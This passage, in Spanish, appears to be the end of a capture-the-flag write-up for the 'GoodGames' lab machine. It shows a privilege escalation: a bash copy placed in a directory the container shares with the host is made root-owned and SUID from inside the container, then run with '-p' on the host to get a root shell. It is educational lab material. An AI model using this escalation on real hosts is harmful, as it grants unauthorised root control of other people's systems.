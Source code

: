 Curiosamente, el archivo creado desde el contenedor es propiedad de root y el host lo trata como si fuera root.

Copiamos `/bin/bash` en el directorio de augustus:

```bash
augustus@GoodGames:~$ cp /bin/bash .
```

Luego, en el contenedor, cambio el propietario a root y configuro los permisos para que sean SUID:

```bash
root@3a453ab39d3d:/home/augustus# ls -l bash
-rwxr-xr-x 1 1000 1000 1234376 Feb 22 15:25 bash
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod 4777 bash
root@3a453ab39d3d:/home/augustus# ls -l bash
-rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash
```

Ahora ejecutamos:

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.1# 
```

¡Y somos root!

## Nota 

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.
